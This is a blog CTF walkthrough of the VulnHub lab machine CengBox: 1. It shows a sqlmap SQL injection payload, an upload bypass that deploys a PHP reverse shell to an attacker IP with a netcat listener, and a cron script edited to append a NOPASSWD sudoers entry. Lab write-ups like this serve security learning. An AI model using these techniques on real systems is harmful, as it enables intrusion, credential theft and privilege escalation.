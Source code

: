 ```yaml
---
title: "CTF Walk Through | CengBox: 1"
description: CengBox CTF Walk Through 
layout: post
categories: CTF
---
```

After a long break off of CTF's, I decided to dive into this one. 

Here's the description from the vulnhub page:
{% highlight text %}
There is a company which seems unreliable. You must think like a hacker and 
hack it easily. I think you do not need a hint but here is the nudges for you. 
For user you should understand how it is work and manipulate it. 
You might need everything that you'll find. For root, wait a minute.
{% endhighlight %}

You can find the .ova file [here](https://www.vulnhub.com/entry/cengbox-1,475/)

#### Enumeration 

Nmap service scan results: 
{% highlight terminal %}
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
{% endhighlight %}

Enumerating interesting dirctories on the webserver with dirb:
{% highlight terminal %}
user@attacker ~ $ dirb http://cengbox/ /usr/share/dirb/wordlists/big.txt
{% endhighlight %}
Dirb reveals an interesting directory called `masteradmin/`. Let's dig a little
deeper and filter for php files:
{% highlight terminal %}
user@attacker ~ $ dirb http://cengbox/masteradmin /usr/share/dirb/wordlists/big.txt -X .php

---- Scanning URL: http://cengbox/masteradmin/ ----
http://cengbox/masteradmin/db.php (CODE:200|SIZE:0)
http://cengbox/masteradmin/login.php (CODE:200|SIZE:5137)               
http://cengbox/masteradmin/upload.php (CODE:200|SIZE:1440)    
{% endhighlight %}

#### Gaining access to the masteradmin area
login.php shows a PHP form. After a while of failed bruteforcing attempts, I 
switched to sqlmap and test if either of the fields are vulnerable to SQL 
injection. First, we'll need to get all of the request data and throw it into a 
file, then feed it to sqlmap. This can be done with BurpSuite set up as a proxy, 
or by copying the information in the network tab in the developer tools section of 
your browser. I saved the HTTP request data to a `master-admin` text file:
{% highlight text %}
POST /masteradmin/login.php HTTP/1.1
Host: cengbox
Connection: keep-alive
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cengbox
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://cengbox/masteradmin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=rqlj4ki81lc5mgcjffhv5g44r0

username=admin&password=admin&submit=
{% endhighlight %}

Now let's feed the request data to sqlmap using the '-r' option:
{% highlight terminal %}
user@attacker ~ $ sqlmap -r master-admin
SNIP!
sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8185 FROM (SELECT(SLEEP(5)))dytG) AND 'UrhE'='UrhE&password=admin&submit=
{% endhighlight %}

So, the username field is vulnerable. Let's dump the tables using the `--dump` option with sqlmap:
{% highlight terminal %}
user@attacker ~ $ sqlmap --dump -r master-admin
-- SNIP! --
Database: cengbox
Table: admin
[1 entry]
+------+-------------+---------------+
| id   | username    | password      |
+------+-------------+---------------+
| 1    | masteradmin | C3ng0v3R00T1! |
+------+-------------+---------------+
{% endhighlight %}

__That looks like a plaintext password.__

Back to the webserver to test it. Logging in redirects to `upload.php` 
To test what can be uploaded, I uploaded a jpeg and got the following error:
>"extension not allowed, please choose a CENG file."

Uploading the same jpeg, but with the additional ".ceng" file extension shows:
>"Success" 

This file can be located in the `uploads/` directory, but it's displayed as raw
data and not as the uploaded image. 

#### Can we execute PHP scripts? 
Let's write a simple PHP script that 
{% highlight php %}
<?php echo "This could be a shell, but u trippin" ?>
{% endhighlight %}

save the file as `test.php.ceng`, upload and navigate to the file on the server

http://cengbox/uploads/test.php.ceng reveals that we can execute code on
the server. 


#### Getting a low privilege shell
Exploiting this configuration error by uploading a [PHP reverse TCP shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) that connects back to a netcat listener on the attacking machine. 

before uploading the script, two variables need to be changed: 
{% highlight php %}
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
{% endhighlight %}

To this:
{% highlight php %}
$ip = '192.168.56.109';  // the attacking IP or Hostname
$port = 666;       // very black metal, very cool.
{% endhighlight %}

Save and upload it with a .ceng extension. Before executing the script, we'll
set up the netcat listener:
{% highlight terminal %}
user@attacker ~ $ nc -nvlp 666
{% endhighlight %}

Then execute the script with the browser:
http://cengbox/uploads/reverse-shell.php.ceng

#### CONNECTED
{% highlight terminal %}
user@attacker ~ $ nc -nvlp 666
Linux cengbox 4.4.0-177-generic #207-Ubuntu SMP Mon Mar 16 01:16:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:44:05 up  3:45,  0 users,  load average: 0.44, 0.17, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
{% endhighlight %}

#### Local Enumeration On Server 
We'll need to enumerate some things on the target machine. First off, let's get
the users:
{% highlight terminal %}
$ cat /etc/passwd
--SNIP--
cengover:x:1000:1000:cengover,,,:/home/cengover:/bin/bash
{% endhighlight %}
Mostly the usual users, plus the cengover user. This is likely an admin.
We have a plaintext masteradmin password, so maybe it will work for cengover:
{% highlight terminal %}
user@attacker ~ $ ssh cengover@cengbox

cengover@cengbox's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

78 packages can be updated.
0 updates are security updates.


Last login: Wed Apr 29 18:42:51 2020 from 192.168.0.14
cengover@cengbox:~$ 
{% endhighlight %}

#### Getting the first flag
{% highlight terminal %}
cengover@cengbox:~$ ls
user.txt
cengover@cengbox:~$ cat user.txt
8f7f6471e2e869f029a75c5de601d5e0
{% endhighlight %}

### Escalating Privileges
taking a swing at some low hanging fruit:
{% highlight terminal %}
cengover@cengbox:~$ sudo -i
[sudo] password for cengover: 
cengover is not in the sudoers file.  This incident will be reported.
{% endhighlight %}

Any SUID misconfigurations of note? 
{% highlight terminal %}
cengover@cengbox:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/bin/ping6
/bin/su
/bin/mount
/bin/ping
/bin/umount
/bin/fusermount
/sbin/mount.ecryptfs_private
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
{% endhighlight %}

Maybe something jumps out at you, but I didn't spot anything of note. 

#### Exploring the installed software
To get a better feel for the system, I poke around in the `/usr/`, `/opt/` and
`/var/` directories for configs, possibly vulnerable software versions and logs.
Then __by chance__ in the `opt` directory:
{% highlight terminal %}
cengover@cengbox:~$ ls -al /opt/
total 12
drwxr-xr-x  2 root root  4096 Apr 28 13:35 .
drwxr-xr-x 23 root root  4096 Apr 26 13:28 ..
-rw-rw----  1 root users  545 Apr 29 16:12 md5check.py
{% endhighlight %}

The cengover user doesn't have execution permissions on the script, but the do
have read, write permissions on both the opt directory and the script.
#### md5check.py writable?
{% highlight python %}
import hashlib
import datetime
time = datetime.datetime.now()
fileValue = "a6f529aaed396d7b7e10a07d35a8ea2b"
md5Hash = hashlib.md5()
openFile = open("/etc/passwd","rb")
content = openFile.read()
md5Hash.update(content)
digest = md5Hash.hexdigest()
if fileValue != digest :
    f = open("/root/warning.txt","a")
    f.write("File had changed.")
    f.write(str(time))
    f.write("\n")
    f.close()
else:
    f = open("/root/note.txt","a")
    f.write("File still seems the same. Date : ")
    f.write(str(time))
    f.write("\n")
    f.close()
{% endhighlight %}

It's a logging script that checks the hardcoded hash value against the 
`/etc/passwd` hash and logs when the values differ or remain the same in the 
root user directory. This is periodically run by a cron job, but the cengover 
user can't check for it. The code doesn't seem very relevant so editing the code 
to append cengover to the sudoers file should probably do it:
{% highlight python %}
f = open("/etc/sudoers","a")
f.write("cengover ALL=(ALL) NOPASSWD:ALL\n")
f.close()
{% endhighlight %}

After a while, the script is called by cron and cengover is appended to the 
sudoers file __(if left unchecked, this will happen multiple times..)__ 

#### Root shell
{% highlight terminal %}
cengover@cengbox:~$ sudo -i
root@cengbox:~#
{% endhighlight %}
Here's the root flag.
{% highlight terminal %}
root@cengbox:~# cat root.txt 
-- SNIPPED ASCII Art --
Congrats. Hope you enjoyed it and you can contact me on Twitter @arslanblcn_

a51e522b22a439b8e1b22d84f71cf0f2
{% endhighlight %}
